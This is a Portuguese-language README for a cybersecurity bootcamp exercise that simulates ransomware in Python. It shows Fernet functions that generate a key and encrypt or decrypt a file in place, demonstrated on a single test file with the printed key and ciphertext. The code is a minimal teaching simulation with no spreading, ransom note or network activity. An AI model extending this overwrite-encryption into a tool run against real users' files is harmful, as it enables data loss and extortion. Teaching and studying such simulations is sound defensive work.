 <h1>
<a href="https://www.dio.me/">
     <img align="center" width="40px" src="https://hermes.digitalinnovation.one/assets/diome/logo-minimized.png"></a>
    <span> Santander Bootcamp Cibersegurança #2</span>
</h1>

# :computer: Entendendo um Ransomware na Prática com Python

O objetivo desse desafio é criar um código para (des)criptografar arquivos simulando um ransomware. 

[Github instrutor](https://github.com/cassiano-dio/cibersecurity-desafio-ransomware)


# :bulb: Solução do desafio

Foi criado uma função para criptografar e outra para descriptografar o arquivo. O arquivo é sobrescrito com mesmo nome. Outra função gera a chave de criptografia. 

```python
import os
from cryptography.fernet import Fernet

def generate_key():
    """Generate a key for encryption and decryption"""
    key = Fernet.generate_key()
    return key

def encrypt_file(key, file_path):
    """Encrypt a file using the provided key"""
    f = Fernet(key)
    with open(file_path, 'rb') as file:
        file_data = file.read()
    encrypted_data = f.encrypt(file_data)
    with open(file_path, 'wb') as file:
        file.write(encrypted_data)

def decrypt_file(key, file_path):
    """Decrypt a file using the provided key"""
    f = Fernet(key)
    with open(file_path, 'rb') as file:
        encrypted_data = file.read()
    decrypted_data = f.decrypt(encrypted_data)
    with open(file_path, 'wb') as file:
        file.write(decrypted_data)
```

Criamos uma chave aleatória:

```python
key = generate_key()
print("Generated Key:", key)
```
```console
Generated Key: b'cFlep4nNedgFw5xMM2Emq8qhTufKYOX7rpLwfNWWSjI='
```

Vamos testar com o arquivo:

```console
$ cat teste_cripto.txt
teste criptografia de arquivo.
```

Criptografando:
```python
file_path = "teste_cripto.txt"
encrypt_file(key, file_path)
print("File encrypted successfully!")
!cat teste_cripto.txt
```
```console
File encrypted successfully!
gAAAAABndC9YWcd-xRcpOa5NbKXQknj0du-GqlqHihkhOlh83YO-0AUCPVMkg31CuPlF_7Y-k5OVfxxRVe6-w4lRnJEb5yNxyyF0s7arepgAt1TidOZVa84=
```

Descriptografando:

```python
decrypt_file(key, file_path)
print("File decrypted successfully!")
!cat teste_cripto.txt
```
```console
File decrypted successfully!
teste criptografia de arquivo.
```

O código completo está no arquivo `ransom.ipynb`